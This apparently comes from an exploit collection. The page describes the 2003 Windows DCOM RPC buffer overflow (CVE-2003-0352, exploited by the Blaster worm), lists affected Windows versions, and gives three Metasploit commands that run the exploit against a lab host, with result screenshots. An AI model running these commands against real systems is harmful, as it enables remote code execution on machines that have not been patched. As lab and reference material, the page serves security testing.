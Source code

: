 ###  CVE-2003-0352

#### Describe

Buffer overflow in a certain DCOM interface for RPC in Microsoft Windows NT 4.0, 2000, XP, and Server 2003 allows remote attackers to execute arbitrary code via a malformed message, as exploited by the Blaster/MSblast/LovSAN and Nachi/Welchia worms.

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         |        |                    |
| Windows 2000        |                  |         | SP1    |                    |
| Windows 2000        |                  |         | SP2    |                    |
| Windows 2000        |                  |         | SP3    |                    |
| Windows 2000        |                  |         | SP4    | &#10004; |
| Windows Server 2003 |                  | R2      |        |                    |
| Windows Nt          |                  |         | SP1    |                    |
| Windows Nt          |                  | 4.0     | SP2    |                    |
| Windows Nt          |                  | 4.0     | SP3    |                    |
| Windows Nt          |                  | 4.0     | SP4    |                    |
| Windows Nt          |                  | 4.0     | SP5    |                    |
| Windows Nt          |                  | 4.0     | Sp6a   |                    |
| Windows Nt          |                  | 4.0     | SP6    |                    |
| Windows Xp          |                  |         | SP1    |                    |
| Windows Xp          |                  |         | Gold   |                    |

#### Utilization

Test system Windows 2000 SP4 x86

```
use exploit/windows/dcerpc/ms03_026_dcom
set RHOST 192.168.1.17
run
```

![image-20200823200752021](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2003-0352_win2000_x86_msf.png)

View system information

![CVE-2003-0352_win2000_x86_msf2](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2003-0352_win2000_x86_msf2.png)

